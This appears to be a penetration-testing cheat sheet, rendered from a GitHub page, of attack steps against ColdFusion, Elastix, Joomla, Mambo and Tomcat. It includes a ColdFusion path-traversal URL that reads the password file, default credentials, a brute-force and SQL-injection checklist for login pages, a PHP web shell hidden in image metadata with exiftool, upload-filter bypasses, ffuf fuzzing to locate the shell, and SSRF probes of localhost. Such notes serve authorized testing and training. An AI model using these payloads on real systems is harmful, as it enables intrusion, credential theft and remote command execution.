 Adobe Cold Fusion

- check version /CFIDE/adminapi/base.cfc?wsdl
- fckeditor Version 8  LFI > [http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en](invalid://)

Elastix

- Google the vulnerabilities
- default login are admin:admin at /vtigercrm/
- able to upload shell in profile-photo

Joomla

- Admin page - /administrator
- Configuration files configuration.php | diagnostics.php | [joomla.inc](http://joomla.inc).php | [config.inc](http://config.inc).php

Mambo

- Config files >> configuration.php | [config.inc](http://config.inc).php

Tomcat

## Login Page

1. Try common credentials such as admin/admin, admin/password and user/user.
2. Use default credentials.
3. Determine if you can enumerate usernames based on a verbose error message.
4. Manually test for SQL injection.
5. View Source Code
6. If all fails, run hydra to brute force credentials.
7. Register User
8. Inspect session cookie

## File Upload
Hacktricks
- Change mime type
- Extension bypass (null byte, double extension, similar extension etc...)
- Add image headers
- Magic Bytes
- Add payload in exiftool comment and name file as file.php.png
	- ExifTool 1. <?php system($_GET['cmd']); ?> //shell.php 2. exiftool "-comment<=shell.php" malicious.png 3. strings malicious.png | grep system

After uploading a file try to perform a fuzzing attack using (if you have not discovered the file upload folder or get a 403):
```
ffuf -w wordlist -u https://ip/FUZZ/shell.php 
```

## SSRF

Request asking for URL input 
- http://kali/file.txt -> Check if our http server gets this request
- http://127.0.0.1
- FFUF 127.0.0.1:FUZZ all ports to find an API or something else
